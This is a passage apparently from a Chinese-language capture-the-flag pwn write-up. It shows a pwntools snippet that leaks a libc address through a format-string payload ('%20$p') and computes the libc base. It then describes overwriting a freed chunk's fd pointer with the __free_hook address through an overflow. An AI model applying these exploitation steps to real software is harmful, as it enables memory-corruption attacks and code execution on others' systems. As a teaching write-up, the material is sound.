 ```python
p.send('%20$p')
p.recvuntil('\x78')
leak_addr=int(p.recv(12),16)
print('leak_addr------------->',hex(leak_addr))
sleep(0.2)
libc_base=leak_addr-0x21c87#0x21c87是泄露的地址与libc基地址的偏移
print('libc_base------------->',hex(libc_base))
```

然后就可以获取\_\_free_hook的地址了，我们将其布置在这个地方

![image-20220514100958393](/upload/img/image-20220514100958393.png)

此时我们利用溢出将free掉的chunk的fd指针改成了\_\_free_hook的地址，同时可以看见bins中已经出现了\_\_free_hook的地址（如下图）
